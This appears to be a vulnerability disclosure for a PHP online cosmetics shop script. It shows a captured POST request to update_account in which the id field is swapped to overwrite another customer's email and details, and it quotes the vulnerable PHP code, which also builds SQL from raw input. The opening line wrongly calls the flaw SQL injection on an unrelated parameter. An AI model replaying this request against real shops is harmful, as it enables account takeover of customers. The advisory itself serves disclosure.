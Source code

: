 # Exploit Title: Cosmetic and Beauty Products Online Shop 1.0 - Broken Access Control with Update account funtions

The c parameter on category detail on Cosmetics-and-Beauty-Product-Online-Store v1.0 appears to be vulnerable to SQL injection attacks. 

### Date: 
> 15 Apr 2023

### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Cosmetics and Beauty Product Online Store](https://www.sourcecodester.com/php/15181/cosmetics-and-beauty-product-online-store-phpoop-free-source-code.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> /cbpos/classes/Master.php?f=update_account


### Description:
> Broken Access Control via ID user can change info, email of other account client on Cosmetics-and-Beauty-Product-Online-Store v1.0.

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /cbpos/?p=edit_account
2. Edit your account and view request
Request
```
POST /cbpos/classes/Master.php?f=update_account HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 154
Origin: http://localhost
Connection: close
Referer: http://localhost/cbpos/?p=edit_account
Cookie: eid=2; download_started=0; plupload_ui_view=thumbs; PowerBB_username=tuanth; PowerBB_password=32298fc135b3fecf012a4c27efbba188; jstree_select=1; PHPSESSID=51spndcudrtniksvqgp19cifo8
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=CHANGE_ID&firstname=account+1&lastname=bBAC&contact=122222222&gender=Male&default_delivery_address=hn&email=account1%40gmail.com&password=&cpassword=test123%40
```

3. Change id, email of other account and view result

Before:

![Example Image](https://drive.google.com/uc?id=1nyfDONIKVN2GmVSQMa0P3DeJKzrj-Cnv)

After:

![Example Image](https://drive.google.com/uc?id=19ty_CGmKCAOyU1jP_aH2Ewdh-MSLb1qR)

4. CODE
```
function update_account(){
		if(!empty($_POST['password']))
			$_POST['password'] = md5($password);
		else
			unset($_POST['password']);
		extract($_POST);
		$data = "";
		if(md5($cpassword) != $this->settings->userdata('password')){
			$resp['status'] = 'failed';
			$resp['msg'] = "Current Password is Incorrect";
			return json_encode($resp);
			exit;
		}
		$check = $this->conn->query("SELECT * FROM `clients`  where `email`='{$email}' and `id` != $id ")->num_rows;
		if($check > 0){
			$resp['status'] = 'failed';
			$resp['msg'] = "Email already taken.";
			return json_encode($resp);
			exit;
		}
		foreach($_POST as $k =>$v){
			if($k == 'cpassword' || ($k == 'password' && empty($v)))
				continue;
				if(!empty($data)) $data .=",";
					$data .= " `{$k}`='{$v}' ";
		}
		$save = $this->conn->query("UPDATE `clients` set $data where id = $id ");
		if($save){
			foreach($_POST as $k =>$v){
				if($k != 'cpassword')
				$this->settings->set_userdata($k,$v);
			}
			
			$this->settings->set_userdata('id',$this->conn->insert_id);
			$resp['status'] = 'success';
			$this->settings->set_flashdata('success',' Your Account Details has been updated successfully.');
		}else{
			$resp['status'] = 'failed';
			$resp['error'] = $this->conn->error;
		}
		return json_encode($resp);
```

### Impact:
> Broken access control vulnerability is a type of security flaw that allows an unauthorized user access to restricted resources. Attacker can change other account info and account takeover
